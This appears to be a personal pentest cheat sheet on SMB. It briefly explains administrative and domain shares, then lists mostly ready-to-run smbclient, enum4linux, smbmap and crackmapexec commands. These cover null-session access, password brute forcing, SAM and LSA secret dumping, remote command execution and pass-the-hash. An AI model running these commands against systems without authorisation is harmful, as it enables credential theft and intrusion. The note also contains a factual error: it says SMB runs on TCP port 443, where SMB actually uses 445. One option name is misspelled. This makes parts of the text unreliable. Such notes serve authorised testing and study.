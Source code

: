 - Server Message Block.
- Used to share folders, printers, resources.
- Works over
	- Port 139 over NetBIOS (Older machines)
	- Port 443 over TCP
# Shares
Folders that a machine shares in order to be accessed by other computer/users.
### ADMIN$
- The `%SystemRoot%` directory of the machine. Only accessible to Administrators of the machine.
### C$
- The C:\ drive of the machine, only accessible to Administrators of that machine.
### IPC$
- A special share that is used `Inter Process Communication` used by [[MSRPC]].
- Performs actions such as:
	- List all shares
	- List all users
	- List files within a share
	- Start/stop services
### SYSVOL
- A special share in domain controllers that stores [[Group Policy]], scripts, junction point.
### NETLOGON
- This share is used to store logon scripts (executes when user logs in) and other files.

# Enumeration
### smbclient
FTP-like client for SMB 
```bash
# List Shares
smbclient -U "[domain\]username%password" -L //<hostname/IP>
# Connect to a share
smbclient -U "[domain\]username%password" //<hostname/IP>/C$
# Anonymous Login/Null Session
smbclient --no-pass -L //<hostname/IP>
smbclient -U "%" -L //<hostname/IP>
```
### enum4linux
```bash
enum4linux -a -u <username> -p <password> <target>
```
### smbmap.py
```bash
smbmap.py -H <target> [options]
```
- `-u <username>`
- `-p <password>
- `-r <sharename>` : list content of the share
- `-x <command>` : execute command remotely
- `--upload <file> <sharepath>` : upload to file share
- `--down <file>` : download from file share
### crackmapexec
```bash
# List shares
cme smb <target> -u <username> -p <password>
# Test null session
cme smb <target> -u '' -p '' --shares

# Brute force passwords 
cme smb <target> -u ./user.txt -p ./pass.txt
cme smb <target> -u ./user.txt -p ./pass.txt --continue-on-success

# list shares
cme smb <target> -u <username> -p <password> --shares
# dump sam database of the target
cme smb <target> -u <username> -p <password> --sam
# dump lsa secrets from lsass memory
cme smb <target> -u <username> -p <password> --lsa
# get sessions
cme smb <target> -u <username> -p <password> --sessions
# Get loggedon users
cme smb <target> -u <username> -p <password> --loggonon-users
# list disks
cme smb <target> -u <username> -p <password> --disks
# list users
cme smb <target> -u <username> -p <password> --users
# list groups
cme smb <target> -u <username> -p <password> --groups
# list local groups
cme smb <target> -u <username> -p <password> --local-groups
# list password policy
cme smb <target> -u <username> -p <password> --pass-pol

# Execute commands
cme smb <target> -u <username> -p <password> -x 'command' # CMD
cme smb <target> -u <username> -p <password> -X 'powershell' # CMD

# Pass the hash
cme smb <target> -u <username> -H <hash>

# list smb modules
cme smb -L
# Use modules
cme smb <target> <option> -M <module_name>
```
